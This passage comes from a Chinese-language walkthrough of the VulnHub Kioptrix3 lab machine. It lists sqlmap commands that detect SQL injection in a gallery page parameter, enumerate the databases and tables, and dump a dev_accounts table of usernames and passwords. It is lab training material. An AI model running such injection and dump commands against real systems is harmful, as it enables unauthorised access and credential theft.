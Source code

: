 ```python
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1&sort=photoid#photos"
```

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/VulnHub%20-Kioptrix3%20(12).png)

这一次，sqlmap确定id参数可能是可注入的，并且后端数据库似乎是MySQL。

继续确定存在的数据库

```python
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1&sort=photoid#photos" -dbs
```

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/VulnHub%20-Kioptrix3%20(13).png)

查看gallery数据库下的表

```python
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1&sort=photoid#photos" -D gallery --tables
```

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/VulnHub%20-Kioptrix3%20(14).png)

查看表中的数据

```python
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1&sort=photoid#photos" -D gallery -T dev_accounts --dump
```

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/VulnHub%20-Kioptrix3%20(15).png)

成功获取用户名和密码，后面的提权步骤和上面的一样，就不再赘述

至此，靶机渗透结束。

